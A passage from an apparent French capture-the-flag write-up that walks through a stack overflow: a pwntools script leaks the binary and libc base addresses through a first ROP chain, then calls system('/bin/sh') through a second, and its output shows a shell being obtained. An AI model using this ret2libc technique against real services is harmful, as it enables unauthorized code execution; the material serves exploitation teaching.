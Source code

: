 Le programme est bien ré-exécuté une seconde fois. Et nous obtenons l'adresse de
la libc.  
Il ne nous reste plus qu'à faire une seconde ropchain pour appeler
`system("/bin/sh")`. pwntools possède une fonction pour trouver une chaîne de
caractères dans un binaire, nous nous en servons afin de trouver la chaîne
"/bin/sh\\x00" :
```py

def main():
    global r
    r = conn()
    attach_gdb()

    exe.symbols["main"] = 0x1178
    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    rop += p64(exe.symbols["main"])
    r.sendline(rop)
    r.recvline()

    addr_puts = u64(r.recvline().strip().ljust(8, b"\x00"))
    info(f"puts @ {hex(addr_puts)}")
    libc.address = addr_puts - libc.symbols["puts"]
    info(f"libc @ {hex(libc.address)}")

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(next(libc.search(b"/bin/sh\x00")))
    rop += p64(libc.symbols["system"])
    r.sendline(rop)

    r.interactive()
```

```
$ python3 exploit.py
[*] exe @ 0x5575f7922000
[*] puts @ 0x7f2de33155a0
[*] libc @ 0x7f2de329a000
[*] Switching to interactive mode
0x5575f7926010
Nope, you are no master.
$ echo 'pwned'
pwned
$ exit
[*] Got EOF while reading in interactive
```
